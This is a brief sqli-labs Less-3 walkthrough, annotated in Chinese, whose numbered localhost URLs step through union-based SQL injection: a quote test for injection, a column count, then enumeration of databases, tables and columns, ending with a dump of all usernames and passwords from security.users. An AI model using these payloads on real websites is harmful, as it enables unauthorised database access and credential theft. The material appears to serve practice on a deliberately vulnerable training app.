

# Less-3
1. http://127.0.0.1/sqli/Less-3/?id=1’ 查看是否有注入
2. http://127.0.0.1/sqli/Less-3/?id=1') order by 3--+ 查看有多少列
3. http://127.0.0.1/sqli/Less-3/?id=-1') union select 1,2, group_concat(schema_name) from information_schema.schemata --+ 查看所有数据库
6. http://127.0.0.1/sqli/Less-3/?id=-1') union select 1,2, group_concat(table_name) from information_schema.tables where table_schema=0x7365637572697479 --+查看所有的表
7. http://127.0.0.1/sqli/Less-3/?id=-1') union select 1,2, group_concat(column_name) from information_schema.columns where table_name=0x7573657273 --+查看所有的列信息
8.  http://127.0.0.1/sqli/Less-3/?id=-1') union select 1,2, group_concat(concat_ws(0x7e,username,password)) from security.users --+直接可以得到所有的账号和密码，并且使用~符号进行分割。